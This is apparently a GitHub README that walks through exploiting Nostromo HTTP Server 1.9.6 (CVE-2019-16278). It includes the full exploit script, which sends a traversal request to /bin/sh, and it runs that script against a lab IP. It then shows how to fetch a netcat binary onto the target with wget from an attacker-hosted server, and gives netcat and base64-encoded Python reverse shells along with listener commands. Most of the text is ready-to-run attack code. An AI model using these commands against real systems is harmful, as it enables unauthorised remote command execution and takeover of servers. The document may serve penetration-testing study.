

# Nostromo-1.9.6-exploit

## Nostromo 1.9.6 Exploit (CVE-2019-16278)

A **directory traversal and remote command execution (RCE)** vulnerability exists in **Nostromo HTTP Server v1.9.6**.
This vulnerability, tracked as **CVE-2019-16278**, allows **unauthenticated remote attackers** to execute arbitrary system commands.

**My Web Server:**
[https://drive.google.com/file/d/16ut2HstMu6R2g-gJM0mioF6JuV3bJPek/view?usp=drive_link](https://drive.google.com/file/d/16ut2HstMu6R2g-gJM0mioF6JuV3bJPek/view?usp=drive_link)

---

## 1. CVE Information and References

* **CVE Details**
  [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278)

* **Official Nostromo Write-up**
  [http://www.nazgul.ch/dev/nostromo_cl.txt](http://www.nazgul.ch/dev/nostromo_cl.txt)

* **Exploit-DB**
  [https://www.exploit-db.com/exploits/47837](https://www.exploit-db.com/exploits/47837)

* **GitHub – Exploit Code**
  [https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py)

* **Netcat Binaries**
  [https://github.com/H74N/netcat-binaries/tree/master/build](https://github.com/H74N/netcat-binaries/tree/master/build)

---

## 2. Exploit Setup and Editing

### Open the exploit in `vim`

```bash
vim 47837.py
```

Edit the exploit if required (e.g., payload tuning, port changes, compatibility fixes).

---
## 3. Running the Exploit

### General Syntax

```bash
python 47837.py <target_ip> <target_port> <command>
```

### Execute Basic Commands

```bash
python 47837.py 192.168.1.15 2222 id
```

```bash
python2.7 47837.py 192.168.1.15 2222 "uname -a"
```

```bash
python2.7 47837.py 192.168.1.15 2222 "which nc"
```

```bash
python2.7 47837.py 192.168.1.15 2222 "php -v"
```

```bash
python2.7 47837.py 192.168.1.15 2222 "which python"
```

---

## 4. Using Python 2.7 (Legacy Compatibility)

Some targets require **Python 2.7** due to syntax compatibility.

```bash
python2.7 47837.py 192.168.1.15 2222 "which nc"
```

```bash
python2.7 47837.py 192.168.1.15 2222 "whereis nc"
```

---

### Search for Writable Directories

```bash
python2.7 47837.py 192.168.1.15 2222 "find / -writable"
```

### Common Writable Locations


- /tmp
- /dev/shm
- /var/tmp


---

### Create Test Files

```bash
python2.7 47837.py 192.168.1.15 2222 "ls -lh /tmp/"
```

```bash
python2.7 47837.py 192.168.1.15 2222 "touch /tmp/test.txt"
```

```bash
python2.7 47837.py 192.168.1.51 2222 "touch /dev/shm/test.txt"
```

---

## 5. Reverse Shell Techniques

### Upload Netcat Binary

If `nc` not install you can visit : https://github.com/H74N/netcat-binaries/tree/master/build

- location of `nc /opt/share/nc` file `nc64` linux

```bash
python -m http.server 80
```

```bash
python2.7 47837.py 192.168.1.15 2222 "wget http://192.168.1.7/nc64 -O /tmp/nc64"
```

```bash
python2.7 47837.py 192.168.1.15 2222 "chmod +x /tmp/nc64"
```
```bash
nc -nlvp 443
```

### Launch Netcat Reverse Shell

```bash
python2.7 47837.py 192.168.1.15 2222 "/tmp/nc64 -e /bin/bash 192.168.1.7 443"
```

---

### Listener on Attacker Machine

```bash
nc -nlvp 22
```
---

## IF `NC` IS NOT INSTALL TARGET MACHINE , WE USE PYTHON METHOD: 

## Reverse Shell Generator

[Reverse Shell Generator](https://www.revshells.com/)



[Base64 Decode](https://www.base64decode.org/)

### Here are to step create Shell Generate:
- simple 
```bash
python2.7 47837.py 192.168.1.15 2222 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
- encoded base64
```bash
python2.7 47837.py 192.168.1.15 2222 cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4xLjciLDQ0MykpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oInNoIikn
```
- ready to use
```bash
python2.7 47837.py 192.168.1.15 2222 "echo 'cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4xLjciLDQ0MykpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oInNoIikn' | base64 -d | bash"
```

- before to use 
```bash
nc -nlvp 443
``` 

* **Base64-Encoded Python Reverse Shell**

```bash
python2.7 47837.py 192.168.1.15 2222 "echo 'cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4xLjciLDQ0MykpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oInNoIikn'| base64 -d | bash"
```

---

## 6. Hosting Payloads via HTTP

### Python 2

```bash
python2.7 -m SimpleHTTPServer 80
```

### Python 3

```bash
python3 -m http.server 80
```

---
## 7. Exploit Source Code (Original) — *Sanitized for Study*

```python
#!/usr/bin/env python

import sys
import socket

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = ""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
    except:
        pass
    return response

def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":

    print(art)
    
    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]

        cve(target, port, cmd)
   
    except IndexError:
        print(help_menu)
```

Yeh **image ka content** properly **Markdown format** mein likh diya hai 👇
(Exactly same info, clean & notes-ready)

---

## 8. Command Explanation

| **Command**        | **Description**                                                     |
| ------------------ | ------------------------------------------------------------------- |
| `python2.7`        | Runs the script using **Python 2.7** (legacy compatibility)         |
| `nc`               | **Netcat** utility, commonly used for networking and reverse shells |
| `touch`            | Creates an **empty file** at the specified location                 |
| `find / -writable` | Finds **writable directories** on the filesystem                    |
| `base64 -d`        | **Decodes** a Base64-encoded payload                                |
| `bash`             | Executes commands using the **Bash shell**                          |
| `SimpleHTTPServer` | Starts a **Python 2 HTTP server**                                   |
| `http.server`      | Starts a **Python 3 HTTP server**                                   |

---

